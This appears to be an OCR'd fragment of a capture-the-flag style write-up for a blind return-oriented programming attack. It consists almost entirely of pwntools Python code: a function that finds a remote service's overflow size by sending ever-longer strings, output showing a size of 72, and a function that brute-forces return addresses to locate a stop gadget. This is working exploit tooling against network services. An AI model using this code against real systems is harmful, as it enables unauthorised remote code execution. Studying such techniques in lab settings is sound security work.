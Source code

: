 #### **Check Overflow**

```python
def check_overflow():
    size=0
    i=0
    while True:
        r = remote(ip,port,level='error')
        r.recvline()
        r.sendline('a'*i)
        try:
            recv = r.recvline()
        except Exception as e:
            r.close()
            size = i-1
            break
        r.close()
        i+=1
    return size
```

```shell
root@bs-virtual-machine:~/pwnable# python exploit.py 
[*] Overflow size: 72
```

#### **Check Stop Gadget**

```python
def find_stop_gadget(size):
    p = log.progress("Searching for Stop gadget")
    base = 0x400000

    for offset in range(1,0x1000):
        addr = int(base + offset)

        payload = 'A' * size
        payload += p64(addr)

        if offset % 0x100 == 0:
            log.info('Progress to 0x%x' % offset)

        try:
            r = remote(ip,port,level='error')
            r.recvline()
            r.send(payload)
            recv = r.recv(timeout=0.2)
            r.close()

            if 'WelCome my friend,Do you know password?' in recv:
                p.success('Done')
                log.info('Stop Address : ' + hex(addr))
                return addr

        except Exception as e:
            r.close()
```
